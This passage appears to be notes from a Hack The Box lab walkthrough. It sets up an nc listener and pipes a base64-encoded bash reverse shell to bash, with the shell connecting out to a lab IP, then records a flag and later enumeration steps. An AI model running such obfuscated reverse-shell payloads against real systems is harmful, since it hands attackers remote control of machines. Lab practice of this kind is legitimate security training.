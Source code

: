 Start nc listener 

```
nc -nvlp 4444
```

Then testing payload locally

```
echo -n YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi85MDAxICAwPiYxJyAg | base64 -d | bash
```

![[Pasted image 20250418213304.png]]

Got connection 

![[Pasted image 20250418213327.png]]

Now paste the string into burp request

![[Pasted image 20250418213442.png]]

![[Pasted image 20250418213725.png]]
Got a reverse shell 

![[Pasted image 20250418213759.png]]
flag ? 

```
84f4abba0ca6d2e4db7b1ac0e2fe66e2
```

Notice .gitconfig and there's an email and name in here

![[Pasted image 20250418214031.png]]
- cody@searcher[.]htb

There's also a .git folder in `/var/www/app`

![[Pasted image 20250418214756.png]]

- run `git log` but got an error 


Run 
```
ss -lntp
```

![[Pasted image 20250418215000.png]]
- Two applications 
- One on port 5000 (web server bc of the python stuff)
- One on port 3000
- Mysql on 3306?

Navigate to `/etc/apache2/sites-enabled` to see what is using mysql
